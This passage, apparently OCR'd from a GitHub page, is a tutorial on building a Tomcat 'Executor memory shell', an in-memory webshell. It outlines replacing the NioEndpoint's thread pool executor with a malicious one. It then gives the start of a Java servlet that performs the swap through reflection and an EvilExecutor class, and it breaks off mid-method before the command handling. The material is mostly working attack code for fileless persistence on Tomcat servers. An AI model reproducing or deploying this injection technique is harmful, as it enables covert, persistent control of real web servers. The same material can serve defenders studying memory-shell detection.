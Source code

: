 ## Achievement

### Idea

​ The specific ideas for dynamic global replacement of `Executor` memory horse are as follows:

- First get the corresponding `NioEndpoint`;
- Get the corresponding `executor` property;
- Create a malicious `executor`;
- Pass in the malicious `executor`.

### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.coyote.RequestInfo;
import org.apache.coyote.Response;
import org.apache.tomcat.util.net.NioEndpoint;
import org.apache.tomcat.util.threads.ThreadPoolExecutor;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;
import java.nio.charset.StandardCharsets;
import java.util.ArrayList;
import java.util.Scanner;
import java.util.concurrent.*;

@WebServlet(name = "ExecutorMemoryShellServlet", value = "/ExecutorMemoryShellServlet")
public class ExecutorMemoryShellServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException, ServletException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws IOException {
        NioEndpoint nioEndpoint = (NioEndpoint) getNioEndpoint();
        ThreadPoolExecutor executor = (ThreadPoolExecutor) nioEndpoint.getExecutor();
        nioEndpoint.setExecutor(new EvilExecutor(executor.getCorePoolSize(), executor.getMaximumPoolSize(),
                executor.getKeepAliveTime(TimeUnit.MILLISECONDS), TimeUnit.MILLISECONDS, executor.getQueue(),
                executor.getThreadFactory()));
        response.getWriter().write("Executor Inject Successfully...");
    }

    public Object getField(Object obj, String field) {
        Class clazz = obj.getClass();
        while (clazz != Object.class) {
            try {
Field declaredField = clazz.getDeclaredField(field);
                declaredField.setAccessible(true);
```